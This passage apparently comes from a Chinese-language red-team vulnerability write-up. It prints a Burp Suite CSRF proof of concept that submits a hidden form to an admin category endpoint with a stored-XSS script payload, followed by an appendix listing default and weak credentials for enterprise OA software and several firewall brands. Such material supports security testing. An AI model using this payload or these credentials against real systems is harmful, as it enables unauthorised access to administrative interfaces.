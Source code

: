 ![](/img/HW-Vuln/HW38.png)

#### NO.3

&emsp;&emsp;还存在CSRF漏洞：

```HTML
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form action="http://admin.com/admin.php/category/add?dialog=1" method="POST"> <input type="hidden" name="row&#91;type&#93;" value="default" />
<input type="hidden" name="row&#91;pid&#93;" value="0" />
<input type="hidden" name="row&#91;name&#93;" value="&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" /> <input type="hidden" name="row&#91;nickname&#93;" value="123" /> <input type="hidden" name="row&#91;image&#93;" value="1" />
<input type="hidden" name="row&#91;keywords&#93;" value="123" />
<input type="hidden" name="row&#91;description&#93;" value="123" />
<input type="hidden" name="row&#91;weigh&#93;" value="0" />
<input type="hidden" name="row&#91;status&#93;" value="normal" />
<input type="hidden" name="row&#91;flag&#93;&#91;&#93;" value="" />
<input type="submit" value="Submit request" />
</form>
</body>
</html>
```

## Appendix

&emsp;&emsp;一些弱口令字典:

* 泛微OA默认system账号:system/system

* Apache DolphinScheduler:admin/dolphinscheduler

* 天融信防火墙 用户名:superman 密码:talent

* 天融信防火墙 用户名:superman 密码:talent!23

* 联想网御防火墙 用户名:admin 密码:leadsec@7766、administrator、bane@7766

* 深信服防火墙 用户名:admin 密码:admin
